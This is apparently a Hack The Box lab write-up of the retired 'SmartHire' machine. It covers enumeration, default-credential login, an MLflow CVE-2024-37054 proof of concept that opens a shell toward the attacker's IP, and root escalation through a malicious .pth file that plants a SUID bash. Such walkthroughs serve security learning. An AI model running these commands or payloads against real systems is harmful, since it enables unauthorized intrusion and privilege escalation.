


# SmartHire

<div class="wu-meta" markdown="span">
<span class="wu-badge wu-os">:fontawesome-brands-linux: Linux</span>
<span class="wu-tags">
<span class="wu-tag">MLflow</span>
<span class="wu-tag">Python .pth</span>
<span class="wu-tag">Sudo</span>
</span>
</div>

!!! abstract "What this box demonstrates"
    The writable plugin directory mattered because the privileged script passed it to site.addsitedir(). That function processes .pth files, so code ran before the application reached its own command handler.

## Attack path

1. Find the models virtual host and authenticate with the recorded default credentials.
2. Use the MLflow proof of concept for a shell as svcweb.
3. Place an import line in the writable plugin .pth file and invoke the allowed sudo script.

[HTB machine](https://app.hackthebox.com/machines/897) · [Official retirement evidence](https://labs.hackthebox.com/achievement/machine/2048041/897) (checked November 17, 2026).

## Setup 

```bash
export IP="10.129.142.143"
```

### /etc/hosts
```bash
echo "$IP    smarthire.htb" | sudo tee -a /etc/hosts
```

---
## Enumeration
### Port Discovery / Scanning

**Quick Port Scan**
```bash
rustscan -a $IP --ulimit 5000 | tee rustscan.txt
```

**Full Nmap Scan**
```bash
nmap -sC -sV -p- $IP -oN nmap_full.txt
```
### Nmap Results
```text
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

---
## Service Enumeration

### 80

Landing page took you to a custom web application for an AI evaluation platform which lets you create an account using the Sign in button on the top right. 

Created a user, `john:john`, to now accesss `/dashboard` where we can upload our own training data to the ML model. 

Rather than going down this path, I instead started to fuzz directories and subdomains. Interestingly, the subdomain did come up with 1 result:
```bash
ffuf -u 'http://smarthire.htb' -H 'Host: FUZZ.smarthire.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fc 301

models                  [Status: 401, Size: 137, Words: 11, Lines: 1, Duration: 37ms]
```

Attempting to navigate to this page will force you to attempt to use basic form auth. Utilizing default credentials, `admin:password`, we're able to get in.  

Again, avoiding the path of injecting a malicious model myself, I instead Googled `mlflow 2.14.1 exploit github` which took me to this repo: https://github.com/ben-slates/CVE-2024-37054

Utilizing this repo and exploit POC, I was able to obtain a foothold as `svcweb`:

```bash
python3 poc.py http://smarthire.htb http://models.smarthire.htb 10.10.14.145 80 --mlflow-creds admin:password --app-username john --app-password john
```

<figure class="wu-evidence" markdown>

<figcaption>The MLflow PoC produces a shell as svcweb.</figcaption>
</figure>

---
## Privilege Escalation

As `svcweb`, I ran `linpeas` and identified that the user could execute the following Python script as `root` without supplying a password:

```bash
sudo /usr/bin/python3.10 /opt/tools/mlflow_ctl/mlflowctl.py
```

<figure class="wu-evidence" markdown>

<figcaption>The sudo rule permits the MLflow control script to run as root.</figcaption>
</figure>

Reviewing `mlflowctl.py` showed that it dynamically adds subdirectories from the application's `plugins` directory to Python's site search path:

```python
BASE_DIR = Path(__file__).resolve().parent
PLUGINS_DIR = BASE_DIR / "plugins"

for path in PLUGINS_DIR.iterdir():
    if path.is_dir():
        site.addsitedir(str(path))
```

The important behavior here is `site.addsitedir()`.

Unlike simply adding a directory to `sys.path`, `site.addsitedir()` also processes any `.pth` files contained within that directory. Python `.pth` files are normally used to add additional paths, but lines beginning with `import` are executed as Python code while the directory is being processed.

Because `svcweb` could write to:

```text
/opt/tools/mlflow_ctl/plugins/dev/
```

I could create a malicious `.pth` file inside that directory. When `mlflowctl.py` was later executed through `sudo`, Python processed the `.pth` file **before `main()` was reached**, causing my code to execute with root privileges.

I created the following payload:

```bash
echo "import os; os.system('install -o root -m 4755 /bin/bash /tmp/pwn')" \
    | tee /opt/tools/mlflow_ctl/plugins/dev/pwn.pth
```

This creates a copy of `/bin/bash` at `/tmp/pwn`, owned by root and with the SUID bit set.

I then executed the allowed sudo command:

```bash
sudo /usr/bin/python3.10 /opt/tools/mlflow_ctl/mlflowctl.py status
```

During Python startup, `site.addsitedir()` processed `pwn.pth` and executed the `install` command as root.

The resulting binary could then be used to obtain a root shell:

```bash
/tmp/pwn -p
```

The underlying issue was therefore a **Python `.pth` injection through a writable directory passed to `site.addsitedir()` in a sudo-executable script**.

The useful pattern to remember is:

```text
sudo-executable Python script
        ↓
site.addsitedir(writable_directory)
        ↓
attacker creates malicious .pth file
        ↓
.pth "import ..." line executes as root
        ↓
privilege escalation
```

When reviewing privileged Python scripts in the future, writable directories passed to `site.addsitedir()` are especially important because `.pth` files can cause arbitrary Python statements beginning with `import` to execute automatically.
Python documents this behavior in [site.addsitedir()](https://docs.python.org/3.10/library/site.html#site.addsitedir): import lines in processed `.pth` files execute while the directory is added.

### Recorded privilege verification

The identity output below is transcribed from the original screenshot; flag values and the flag-bearing image are omitted.

```text
svcweb@smarthire:/tmp$ /tmp/pwn -p
pwn-5.1# whoami
root
```

## Lessons learned

site.addsitedir() processes executable import lines in .pth files. A writable directory passed to it by a privileged script is a code-execution boundary, even if the script itself is not writable.
